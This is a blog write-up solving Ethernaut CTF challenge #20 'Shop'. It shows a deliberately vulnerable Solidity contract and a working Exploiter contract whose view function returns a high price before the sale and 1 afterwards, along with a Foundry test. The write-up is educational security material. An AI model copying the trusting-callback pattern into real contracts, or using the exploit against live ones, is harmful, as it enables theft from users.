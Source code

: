 ```yaml
---
title: 'Ethernaut Challenge #20 Solution — Shop'
excerpt: This is Part 20 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to find a way to buy the item from the `Shop` contract for a price lower compared to the one for which the item is sold.
coverImage:
  url: '/assets/blog/ethernaut/shop.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-08-10T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/shop.svg'
---
```


This is Part 19 of the ["Let’s play OpenZeppelin Ethernaut CTF"](https://stermi.medium.com/lets-play-ethernaut-ctf-learning-solidity-security-while-playing-1678bd6db3c4) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

## Challenge #20: Shop

> Сan you get the item from the shop for less than the price asked?
>
> Things that might help:
>
> - `Shop` expects to be used from a `Buyer`
> - Understanding restrictions of view functions
>
> Level author(s): [Ivan Zakharov](https://github.com/34x4p08)

The goal of this challenge is to find a way to buy the item from the `Shop` contract for a price lower compared to the one for which the item is sold.

## Study the contracts

Let's review the contract that is fairly small in code length

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

As we can see, we have a `price` inside the contract that represent the amount of `wei` that a `Buyer` must pay to purchase the item.

The item can also be purchased only if it **has not been sold yet**. This property is handled by the state variable `isSold` that is initialized to `false` and then changed to `true` in the `buy` function.

Let's see in detail the `buy` function

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

This is the main function of the contract. It cast the `msg.sender` to `Buyer` and by doing that it expect that the sender of the transaction is a **Contract** that implements the `price` function defined in the `Buyer` interface.

The `function price() external view returns (uint256);` even if it's not explicit in the Challenge description should return the price that the **buyer** is willing to pay to purchase the shop's item.

The contract check if the Buyer's price (what the buyer is willing to pay) is greater than the Shop's price and check that the item has not been sold yet. If this requirement pass, it will update `isSold` to `true` and update the `price`'s value to `_buyer.price();` that in **theory** should be the same one returned just an instruction before, **right???**

This is not a real case scenario, it's just a challenge to explain a concept. There's no fund transfer involved in the transaction.

The key concept here is: you should **never** **blindly trust** what you expect **an external actor** will do, even if you define a specific interface with a logic that the external actor should trust.

**Never ever trust blindly things that are not under your control.**

Because **we** are the buyer, we can simply implement the `price` function like this

```solidity
function price() external view returns (uint256) {
    return victim.isSold() ? 1 : 1000;
}
```

Because `price` is a `view` function we cannot have an internal state variable to change the `uint256` returned by the function, but we are enabled to make external call functions that are marked as `view` or `pure`.

Just as a reminder from the Solidity Documentation about [what `view` function can and can't do](https://docs.soliditylang.org/en/latest/contracts.html#view-functions):

> A `view` function cannot modify the state of the contract. In particular it cannot
>
> - Write to state variables.
> - Emit events.
> - Create other contracts.
> - Use selfdestruct.
> - Send Ether via calls.
> - Call any function not marked view or pure.
> - Use low-level calls.
> - Use inline assembly that contains certain opcodes.

## Solution code

First, we need to deploy a Contract that inherit and implements the `Buyer` interface required by the `Shop`

```solidity
contract Exploiter {
    // victim reference
    Shop private victim;

    // trigger the exploit
    function buy(Shop _victim) external {
        victim = _victim;
        victim.buy();
    }

    // if the item has not been sold we return what the Shop's want to see
    // but after that (by knowing the Shop logic) we ruturn what we are really
    // going to pay to purchase the item (much much lower compared to the real item's price)
    function price() external view returns (uint256) {
        return victim.isSold() ? 1 : 1000;
    }
}
```

Now we can deploy the exploiter contract and run the test to solve the challenge

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // deploy the exploiter contract
    Exploiter exploiter = new Exploiter();

    // trigger the exploit and buy the item
    exploiter.buy(level);

    // assert that we have solved the challenge
    assertEq(level.isSold(), true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Shop.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Shop.t.sol)

## Further reading

- [Solidity Docs: view functions](https://docs.soliditylang.org/en/latest/contracts.html#view-functions)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
